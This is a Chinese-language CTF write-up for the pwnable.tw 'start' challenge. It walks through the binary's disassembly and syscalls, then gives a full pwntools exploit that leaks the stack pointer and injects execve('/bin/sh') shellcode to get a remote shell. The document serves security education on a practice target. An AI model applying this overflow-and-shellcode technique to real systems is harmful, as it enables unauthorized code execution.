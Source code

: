 ```yaml
---
title: "START"
date: 2019-07-16T21:49:20+08:00
tags: [""]
categories: ["工具使用接口", "CTF-WriteUp"]
---
```


> 参考资料：
>
> - 安全客，前六题的题解：<https://www.anquanke.com/post/id/150359>
> - Linux Syscall Reference：<http://syscalls.kernelgrok.com/>
> - Assembly Reference: <https://www.felixcloutier.com/x86/>


首先检查安全保护等级：

```bash
$ checksec ./start
[*] '/mnt/d/program/ctf/pwnable/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

查看汇编代码：

```bash
$ objdump -d ./start

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       54                      push   %esp
 8048061:       68 9d 80 04 08          push   $0x804809d
 8048066:       31 c0                   xor    %eax,%eax
 8048068:       31 db                   xor    %ebx,%ebx
 804806a:       31 c9                   xor    %ecx,%ecx
 804806c:       31 d2                   xor    %edx,%edx
 804806e:       68 43 54 46 3a          push   $0x3a465443
 8048073:       68 74 68 65 20          push   $0x20656874
 8048078:       68 61 72 74 20          push   $0x20747261
 804807d:       68 73 20 73 74          push   $0x74732073
 8048082:       68 4c 65 74 27          push   $0x2774654c
 8048087:       89 e1                   mov    %esp,%ecx
 8048089:       b2 14                   mov    $0x14,%dl
 804808b:       b3 01                   mov    $0x1,%bl
 804808d:       b0 04                   mov    $0x4,%al
 804808f:       cd 80                   int    $0x80
 8048091:       31 db                   xor    %ebx,%ebx
 8048093:       b2 3c                   mov    $0x3c,%dl
 8048095:       b0 03                   mov    $0x3,%al
 8048097:       cd 80                   int    $0x80
 8048099:       83 c4 14                add    $0x14,%esp
 804809c:       c3                      ret

0804809d <_exit>:
 804809d:       5c                      pop    %esp
 804809e:       31 c0                   xor    %eax,%eax
 80480a0:       40                      inc    %eax
 80480a1:       cd 80                   int    $0x80
```

我们分析这个汇编代码的结构：

1. 观察这个函数的开始段，它并没有诸如押入 `ebp` 等栈操作。一直到 `0x804806c` 这个地址，函数做了一些初始化的事情，并且把四个寄存器置 0；

2. `0x804806e - 0x8048082` 这段地址向栈中存入了字符串（小端存储、栈从高到低增长）：

   ```python
   print(b'\x4c\x65\x74\x27\x73\x20\x73\x74\x61\x72\x74\x20\x74\x68\x65\x20\x43\x54\x46\x3a')
   # b"Let's start the CTF:"
   ```

3. `0x8048087 - 0x804808f` 这段代码调用了 `int 80h` 中断，查询[网址](<http://syscalls.kernelgrok.com/>)，知道 4 号中断是 `sys_write()`：

   ```c
   sys_write(unsigned int fd = 1, const char __user *buf = $esp, int count = 0x14)
   ```

4. `0x8048091 - 0x8048097` 这段代码调用了 `int 80h` 的 3 号中断 `sys_read()`：

   ```c
   sys_read(unsigned int fd = 0, const char __user *buf = $esp, int count = 0x3c)
   ```

5. 然后程序在 `0x8048099` 将栈顶指针上移了 `0x14`  个字节。

6. 然后程序执行 `ret` 指令（`ret` 指令只做一件事情，将程序的执行权交给栈顶 `esp` 指向的地址）。

`exp.py` 如下：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./start'])
        else:
            self.p = remote("chall.pwnable.tw", 10000)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0])

    def leak_esp(self):
        self.p.recvuntil(':')
        payload1 = 'a'*0x14 + p32(0x8048087)
        self.p.send(payload1)
        self.esp = self.p.recv(4)
        print("get esp:", list(self.esp))

    def inject_shellcode(self):
        shellcode = asm(''.join([
            "push %d\n" % u32("/sh\0"),
            "push %d\n" % u32("/bin"),
            "mov ebx,esp\n",  # EBX 指向栈顶
            "xor edx,edx\n",  # 置零 EDX
            "xor ecx,ecx\n",  # 置零 ECX
            "mov eax,0xb\n",  # 指明中断进程 sys_execute
            "int 0x80"
        ]))
        assert len(shellcode) < 0x3c - 0x14 - 0x4
        payload2 = 'a'*0x14 + p32(u32(self.esp) + 0x14) + shellcode
        self.p.send(payload2)

    def get_shell(self):
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.leak_esp()
        self.inject_shellcode()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")

if __name__ == "__main__":
    s = Challenge(False)
    s.pwn()
```


